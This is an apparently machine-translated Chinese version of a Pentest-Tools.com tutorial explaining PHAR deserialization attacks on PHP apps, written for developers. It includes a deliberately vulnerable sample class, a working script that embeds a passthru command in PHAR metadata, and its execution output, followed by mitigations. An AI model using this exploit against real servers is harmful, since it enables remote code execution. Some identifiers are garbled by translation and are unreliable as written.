





# 如何利用 Pentest-Tools.com PHAR 反序列化漏洞

> 原文：<https://pentest-tools.com/blog/exploit-phar-deserialization-vulnerability>

十多年来，反序列化漏洞一直是研究界感兴趣的话题。每年都有新的攻击链出现，利用编程语言中的这些漏洞，如 [Java](https://pentest-tools.com/blog/log4shell-scanner-detect-cve-2021-44228) ，C#(通过。NET 框架)。

在 Blackhat US-18 上，Sam Thomas 介绍了一种利用 PHP 中这些漏洞的[新方法。](https://i.blackhat.com/us-18/Thu-August-9/us-18-Thomas-Its-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It-wp.pdf)

这种新类型的攻击利用了这样一个事实，即使用 **phar://** 流包装器对 phar 文件执行读/写操作决定了它们的元数据将被自动反序列化。

从这里开始，它打开了 POP(面向属性的编程)攻击的大门，攻击者修改对象的属性来劫持应用程序的逻辑流，最终导致代码在宿主服务器上执行。

## **1。了解 PHAR 反序列化漏洞以构建更安全的 web 应用**

本文的范围是帮助 PHP 开发人员更好地理解这类攻击的最常见的根本原因和含义，这些攻击是使用 PHAR (PHP 存档)文件进行的。在本演练结束时，作为 PHP 开发人员，您将能够创建更安全的 web 应用程序。

探索我们对 PHAR 反序列化如何工作的看法，并了解:

## **2。理解 PHAR 反序列化的核心概念**

### **phar:// Stream 包装器**

在 PHP 中，所有的文件操作都是用流来处理的。

一个[流](https://www.php.net/manual/en/intro.stream.php)是一个表现出可流行为的资源对象。也就是说，它可以以线性方式读取或写入。

PHP 开发人员在他们的应用程序请求特定资源时使用包装器，比如图像或文档。

流包装器的例子包括:http://、ftp://、file://、php://、phar://。

为了更好地理解流包装器，请考虑以下几行:

`filegetcontents("http://example.com/image.jpeg")`

`filegetcontents("file://../images/image.jpeg")`

`filegetcontents("phar://./archives/app.phar")`

使用包装器，您可以调用 *same 函数*(文件*获取*内容)从远程位置或本地磁盘上存储的文件夹中获取图像。

特别是，phar://包装器用于与 phar 文件进行交互。它允许在归档文件上执行各种读/写操作，并且只能在本地文件上工作。

如果你想深入了解，这里有一个 phar:// wrapper 选项的完整列表。

### **PHAR 档案馆**

与 Java 归档文件(JAR)类似，在 PHP 中，您可以使用 PHAR(**PHP****Ar**chive)文件将一个库或整个应用程序作为单个文件共享。

有效的 PHAR 包括**四个元素**:

1.  **存根**

2.  **清单**

3.  **文件内容**

4.  **签名**

PHP 提供了 [PHAR 类](https://www.php.net/manual/en/class.phar)来构建这些档案。

下面是如何使用类方法构建归档文件的特定元素。(请务必留下来查看创建完全有效的 PHAR 文件的概念验证代码！)

## **3。PHAR 档案的要素**

1.**存根**是档案的第一部分。这是一个简单的 PHP 程序，可以包含任何你想要的代码。唯一的要求是存根内发出的最后一个命令是**_*HALT*COMPILER()**:

**<？php 回显“存根！”；_ *HALT* 编译器()；** **？>**

设置存根的方法是:

**PHAR**:::set stub(**字符串** **$stub** )

**2。清单**是元数据驻留的地方。它包括关于归档和其中每个文件的信息。更重要的是，元数据以[序列化格式](https://www.php.net/manual/en/phar.fileformat.phar.php)存储。



记住**这次攻击的关键因素**是，每当使用 phar://包装器在 PHAR 上发生文件操作时，这些元数据都会被自动反序列化。

例如，`filegetcontents ('phar://./archives/app.phar')`将反序列化 **app.phar** 档案的元数据。

要将元数据添加到归档中，请使用:

**PHAR**:::set metadata(**混合** **$metadata** )

3.**文件内容**是归档中包含的实际文件，可以是任何种类。要将文件添加到归档中，请使用:

*//将$path 指定的文件作为$name* 添加到档案中

**PHAR**:::addFile(**字符串****$路径**，**$名称**)

*//将 contents 作为＄name*添加到档案中

**PHAR**:addFromString(**字符串****$名称**，**字符串****$内容**)

4.**签名**是存档内容的散列。如果你想从 PHP 访问存档，你必须有一个有效的签名。以编程方式创建 PHAR 时，会自动添加签名。

## **4。POP 攻击如何工作**

如果 PHAR 存档是由攻击者控制的，这就构成了 POP 攻击的基础。

让我们来看看这种攻击技术的基础。(要深入了解，请看一下 [**斯特凡·埃塞尔的原文**](https://owasp.org/www-pdf-archive/Utilizing-Code-Reuse-Or-Return-Oriented-Programming-In-PHP-Application-Exploits.pdf) 。)

攻击者可以将任何类中的对象添加到 PHAR 的元数据中，并为其属性设置任何值。当文件操作在目标应用程序内部被触发时，PHAR 的反序列化发生。

如果元数据中定义的对象属于当前程序范围中定义的类，则该对象将被加载到该程序的上下文中。

在 PHP 中，有一类被称为**魔法方法**的方法，如果某个事件发生，它们会被自动调用。对于当前的例子，只对两个神奇的方法感兴趣:`__wakeup()`和`__destruct()`，当一个对象需要取消序列化或销毁时调用这两个方法。

让我们把重点放在`__destruct()`方法上，因为它更有可能被定义在目标应用程序的某个类中。

所以现在你有了一个你控制的对象，加载到应用程序的作用域中，一个你知道的方法将被调用——或者当对象不再在作用域中时*或者当脚本结束时*。

有些情况下，析构函数的程序逻辑是基于对象的某些属性值的。假设您控制了这些属性，您就可以**劫持逻辑流**。

下面是一个流程示例，可以帮助您直观地了解攻击的形式:



## **5。PHAR 反序列化漏洞利用的概念证明**

让我们来看一个基本的代码示例，它说明了到目前为止所描述的行为。

我们的虚拟应用程序将是一个基于 web 的文本编辑器。

任何用户都可以添加多个文档，他们有媒体存储器，可以添加媒体，以后可以嵌入到任何文档中。文档可以导出为 PDF 格式。

假设生成 pdf 的类叫做`PDFGenerator.php`，它有以下析构函数:

```
<?php
class PDFGenerator {
    // a generic PDF Generator
    public $fileName;
    public $callback;
    // callback is a function that triggers an action when a PDF is generated
    // e.g: send an email, log the PDF file name to history, sync with Dropbox
    function __destruct() {
        call_user_func($this->callback, $this->fileName);
    }
}
?>
```

这个类后来包含在主`Editor.php`文件中。

```
<?php
include 'PDFGenerator.php';
class Editor {
public function __construct() {
    global $argv;
    $this->image = @file_get_contents ($argv[1]);
    // $argv[1] - is there so you can run all this code locally
    // Think of it as the file name of the image you want to add to the document   
    if ($this->image) {
        echo "File found! \n";
    } else {
        echo "File not found! \n";
    }
}                                                                                        }
$obj = new Editor();
?>
```

用一个不存在的文件运行一个测试，注意行为是我们所期望的:



现在，让我们使用前面介绍的方法构建一个 PHAR 档案。它的元数据将是 PDFGenerator 类的一个对象。

用下面的代码创建一个名为`phar_gen.php`的新文件:

```
<?php
class PDFGenerator { }
// Create a new instance of the Dummy class and modify its property
$dummy = new PDFGenerator();
$dummy->callback = "passthru";
$dummy->fileName = "uname -a > pwned"; //our payload

// Delete any existing PHAR archive with that name
@unlink("poc.phar");

// Create a new archive
$poc = new Phar("poc.phar");

// Add all write operations to a buffer, without modifying the archive on disk
$poc->startBuffering();

// Set the stub
$poc->setStub("<?php echo 'Here is the STUB!'; __HALT_COMPILER();");

// Add a new file in the archive with "text" as its content
$poc["file"] = "text";

// Add the dummy object to the metadata. This will be serialized
$poc->setMetadata($dummy);

// Stop buffering and write changes to disk
$poc->stopBuffering();
?>
```

现在，要获得 PHAR，运行:

`$ php phar_gen.php`

下面的`poc.phar`文件将被创建，包含序列化的元数据:



对新创建的`poc.phar`文件再次运行`Editor.php`，您会注意到元数据是未序列化的，有效负载被执行:



`$ php Editor.php phar://poc.phar`

`$ cat pwned`

`Linux Kali1 4.19.0-kali5-amd64 #1 SMP Debian 4.19.37-2kali1 (2019-05-15) x86_64 GNU/Linux`

假设这是通过 web 界面上传的，用户选择的文件名正是要传递给文件操作的文件名。利用这种攻击途径，攻击者现在有可能在服务器上执行代码。

您可能认为您受到了保护，因为攻击者无法知道您的类的名称或实现。

你说对了一部分。

请记住，应用程序可能使用第三方开源库或框架。

更何况，随着 PHP 中自动加载器的引入，[攻击面](https://pentest-tools.com/features/attack-surface)有所增加。自动加载器让每个人都可以访问大量的类，增加了找到可利用的魔术方法实现的机会。

项目 PHPGGC 提供了这类可利用类的列表。一些比较有名的例子包括 Zend、Guzzle、Symfony 和 Laravel。

## **6。避免 PHAR 反序列化漏洞的关键缓解措施**

尽管安全社区对此很熟悉，但大多数 web 开发人员仍然没有注意到这种攻击，因此这是一种风险。

开发者应该采取的第一个也是最重要的对策是仔细地**净化用户输入**。在这种情况下，彻底检查用户可以上传的文件类型，并在服务器端存储时对文件名进行一些随机化处理。

PHAR 反序列化为攻击者提供了一种利用 web 应用程序的新技术。**业务风险很高**因为成功利用漏洞会导致代码在服务器上执行一旦攻击者在您的服务器上站稳脚跟，他们的想象力就是唯一的限制。

利用这种攻击技术，研究人员发现了以下方面的远程代码执行漏洞:

1.  萨姆·托马斯

2.  西蒙·斯坎内尔的《Magento》

3.  山姆·托马斯的 Drupal。

通过对 PHAR 反序列化漏洞攻击工作原理的实际概述，您现在能够创建 PoC 并确保您的 web 应用程序有一个额外的安全层。

如果你发现它有用，与你的同事分享，帮助他们获得竞争优势。

如果您对我们有反馈，请在下面的评论中或在 [Twitter](https://twitter.com/pentesttoolscom) 上给我们留言。